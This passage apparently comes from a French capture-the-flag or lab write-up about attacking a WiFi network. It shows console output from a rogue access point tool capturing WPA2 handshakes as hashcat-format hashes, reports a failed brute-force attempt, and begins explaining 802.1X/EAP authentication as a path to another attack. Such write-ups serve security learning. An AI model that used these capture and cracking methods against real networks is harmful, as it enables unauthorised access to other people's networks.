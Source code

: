 ```console
MANA WPA2 HASHCAT | WPA*02*ef54d9dc7c1788907f4ab912a6ec238d*f09fc2712216*6432a8076c43*776966692d636f6c6c656765*2c8db55327f9e4ef0fffcb1f3b67c36c7cb81b8952564603afe34e9978207590*0103007502010a000000000000000000016d52b38bb0fe07e590c7006d68f342da4bde1187ea688b12d51ccd6615424342000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac010000*00
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:43
MANA WPA2 HASHCAT | WPA*02*98a47d6d855ed2db37d4303d498ed0f7*f09fc2712216*6432a8076c43*776966692d636f6c6c656765*2c8db55327f9e4ef0fffcb1f3b67c36c7cb81b8952564603afe34e9978207590*0103005f02030a0000000000000000000200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000*00
wlan1: STA 64:32:a8:07:6c:41 IEEE 802.11: authenticated
wlan1: STA 64:32:a8:07:6c:41 IEEE 802.11: associated (aid 4)
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:41
MANA WPA2 HASHCAT | WPA*02*090496b1e0b2ba916ab503e80793da29*f09fc2712216*6432a8076c41*776966692d636f6c6c656765*59a383bb925de9a503b8e5e2d1bfcc7c883a675218cf193f31602c8d01954ad7*0103008702010a0000000000000000000117098999045fa89803a18e6c0521d34fd96297b23769fe09157405788cb5bb5f000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002830260100000fac040100000fac040100000fac010000010023a197b77cbde9aa2d0869186b513bd7*00
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:41
MANA WPA2 HASHCAT | WPA*02*291da26afa15cd01f44babfcd70b599b*f09fc2712216*6432a8076c41*776966692d636f6c6c656765*59a383bb925de9a503b8e5e2d1bfcc7c883a675218cf193f31602c8d01954ad7*0103005f02030a0000000000000000000200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000*00
wlan1: STA 64:32:a8:07:6c:41 IEEE 802.11: authenticated
wlan1: STA 64:32:a8:07:6c:41 IEEE 802.11: associated (aid 4)
MANA: Captured a WPA/2 handshake from: 64:32:a8:07:6c:41
MANA WPA2 HASHCAT | WPA*02*e448bebd4a251c90fc2ea71b6a29638b*f09fc2712216*6432a8076c41*776966692d636f6c6c656765*83070de6bd9e4f3b92f6e4159f9e95918a5a8fe3cd81f4f01ca04be02de3c493*0103007502010a00000000000000000001e746a1c7989dd48dec8255335443bd795f9a26183e094829228759644de61019000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac010000*00
```

Sans surprise, une attaque par force brute n'a rien trouvé.

### Petrificus Totalus

En regardant les échanges dans la capture réseau, j'ai relevé des handshakes TLS qui semblaient réussir.

Je ne suis pas expert WiFI mais voici l'explication :

Le standard 802.1X repose sur EAP (Extensible Authentication Protocol) dans lequel le client doit prouver son identité auprès d'un serveur d'authentification comme [Radius](https://fr.wikipedia.org/wiki/Remote_Authentication_Dial-In_User_Service).

L'AP transmet la requête d'authentification au Radius qui retourne un certificat que le client doit utiliser pour établir un tunnel sécurisé (comme une connexion sur un site sécurisé en fait).

Une fois le tunnel établi, le client envoi ses identifiants à travers ce tunnel, soit en clair, soit sous la forme d'un hash. Tout dépend du type d'EAP (je suppose que client et serveur se mettent d'accord sur le type utilisé dans le handshake).
